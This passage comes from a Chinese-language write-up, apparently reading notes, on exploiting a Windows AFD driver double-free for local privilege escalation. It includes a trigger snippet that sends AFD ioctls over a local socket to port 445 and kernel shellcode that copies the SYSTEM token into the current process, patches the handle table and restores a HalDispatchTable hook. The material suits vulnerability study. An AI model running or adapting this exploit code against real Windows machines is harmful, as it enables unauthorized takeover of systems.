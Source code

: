 ```
    memset(&sa, 0, sizeof(sa)); 
    sa.sin_port = htons(445); 
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1"); 
    sa.sin_family = AF_INET; 
    connect(sock_fd, (const struct sockaddr*) & sa, sizeof(sa)); 
 
    DeviceIoControl((HANDLE)sock_fd, 0X1207F, (LPVOID)&InputAfdTransmitFile, \   
            sizeof(INPUT_AfdTransmitFile), NULL, 0, &bytesRet, NULL);   
    DeviceIoControl((HANDLE)sock_fd, 0X120C3, (LPVOID)&InputAfdTransmitPackets, \   
            sizeof(INPUT_AfdTransmitPackets), NULL, 0, &bytesRet, NULL);   
 
    return 0;   
} 
```

构造 Expolit 思路
=============

前文中，作者本着自虐的原则，刨根问底式的研究了很多 “多余的东西”，但是作为一个 Noob，完全自己去构造 Expolit 实在是过于难为作者了。因此，我们需要参考一下大佬们是如何构造 Exploit 的，我们需要通过大佬们的构造思路，来学习构造 Exploit 的技能——这部分技能恰好是我们所不具备的。

 

本文接下来的部分，主要是对《参考 1》的理解以及《参考 2》的解释，或者也可以理解为读书笔记。

利用思路
----

通过上文的分析， 可知此漏洞的根本成因是 DoubleFree， 如果我们能控制 Free 之后的这块内存，从而造成 Object Manipulate 的话，就可以控制任意内存——也就是将 DoubleFree 问题转换为 UAF 问题。

### 获取 CPU 控制权

首先，我们从最朴素的目的来展开我们的思考。抛开所有问题不谈，漏洞利用最终的目标是什么？当然不是没有蛀牙，而是执行我们的 ShellCode——那么我们将会面临两个问题：

```
Shellcode如何写入到内核态可以访问的内存中？
如何接管CPU的执行流程，让CPU执行我们内存中的Shellcode？
```

针对第一个问题， 由于我们的程序已经装载到内存中执行了， 因此当内核运行在我们的 Expoit 进程空间时， 自然就可以访问到用户态的 Shellcode 地址，因此在 Exploit 中 Shellcode 其实就是个函数的地址而已 (参考 2)：

```
NTSTATUS __stdcall Shellcode(int a,int b,int c,int d) 
{ 
    //获取自己和系统进程的EPROCESS 
    PEPROCESS pCur, pSys; 
    DWORD ObjTable; 
    MyPsLookupProcessByProcessId(GetCurrentProcessId(), &pCur); 
    MyPsLookupProcessByProcessId(4, &pSys); 
 
    //提权 0xF8为token位置 
    *(DWORD*)(pCur + 0xF8) = *(DWORD*)(pSys + 0xF8); 
 
    //绕过清理句柄 
    ObjTable = *(DWORD*)(pCur + 0xF4); 
    *(DWORD*)(ObjTable + 0x30) -= 1; 
    ObjTable = *(DWORD*)ObjTable; 
    *(DWORD*)(ObjTable + ((DWORD)hWorkerFactory * 2)) = 0; 
 
    //恢复Hook 
    *(DWORD*)(MyHalDispatchTable + 4) = oldHaliQuerySystemInformation; 
 
    return 0; 
}
```
